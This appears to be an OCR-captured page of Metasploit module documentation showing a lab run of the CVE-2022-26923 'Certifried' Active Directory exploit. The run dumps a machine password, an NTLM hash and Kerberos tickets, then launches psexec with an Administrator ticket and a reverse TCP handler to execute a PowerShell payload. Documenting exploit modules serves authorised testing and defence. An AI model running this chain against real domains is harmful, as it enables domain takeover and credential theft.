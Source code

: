 ```
[+] 192.168.100.104:445 - 192.168.100.104:88 - Received a valid TGS-Response
[*] 192.168.100.104:445 - 192.168.100.104:445 - TGS MIT Credential Cache ticket saved to /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_985570.bin
[*] 192.168.100.104:445 - Disconnecting SMB
[*] 192.168.100.104:445 - Connecting SMB with Test.mylab.local:123456
[*] 192.168.100.104:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 192.168.100.104:445 - Binding to \samr...
[+] 192.168.100.104:445 - Bound to \samr
[*] 192.168.100.104:445 - Using automatically identified domain: MYLAB
[!] 192.168.100.104:445 - Unable to delete the computer account, this will have to be done manually with an Administrator account (Could not delete the computer DESKTOP-E0SYYS6U$: Error returned while deleting user in SAM server: (0xc0000022) STATUS_ACCESS_DENIED: {Access Denied} A process has requested access to an object but has not been granted those access rights.)
[*] 192.168.100.104:445 - Disconnecting SMB
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2022_26923_certifried) > creds
Credentials
===========

host             origin           service        public             private                                                            realm        private_type  JtR Format
----             ------           -------        ------             -------                                                            -----        ------------  ----------
192.168.100.104  192.168.100.104  445/tcp (smb)  DESKTOP-E0SYYS6U$  4PuZlX57aULpEKXUZisjp227G0W0Rdvi                                   MYLAB        Password
192.168.100.104  192.168.100.104  445/tcp (smb)  dc02$              aad3b435b51404eeaad3b435b51404ee:a93d16873c9d49be9b1bce4359dcaa6d  MYLAB.LOCAL  NTLM hash     nt,lm

msf6 auxiliary(admin/dcerpc/cve_2022_26923_certifried) > loot

Loot
====

host             service  type                 name             content                   info                                                                      path
----             -------  ----                 ----             -------                   ----                                                                      ----
192.168.100.104           windows.ad.cs        certificate.pfx  application/x-pkcs12      MYLAB\ Certificate                                                        /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_windows.ad.cs_852935.pfx
192.168.100.104           mit.kerberos.ccache                   application/octet-stream  realm: MYLAB.LOCAL, client: dc02$, server: krbtgt/mylab.local             /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_654380.bin
192.168.100.104           mit.kerberos.ccache                   application/octet-stream  realm: MYLAB.LOCAL, client: administrator, server: cifs/dc02.mylab.local  /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_985570.bin
```

### Using `psexec` with the TGS impersonating the Administrator
```
msf6 exploit(windows/smb/psexec) > exploit rhosts=192.168.100.104 lhost=192.168.100.1 smbuser=administrator smbdomain=mylab.local SmbAuth=kerberos SmbRhostname=dc02.mylab.local DomainControllerRhost=192.168.100.104

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] 192.168.100.104:445 - Connecting to the server...
[*] 192.168.100.104:445 - Authenticating to 192.168.100.104:445|mylab.local as user 'administrator'...
[*] 192.168.100.104:445 - 192.168.100.104:88 - Using cached credential for cifs/DC02.mylab.local@MYLAB.LOCAL Administrator@MYLAB.LOCAL
[*] 192.168.100.104:445 - Selecting PowerShell target
[*] 192.168.100.104:445 - Executing the payload...
```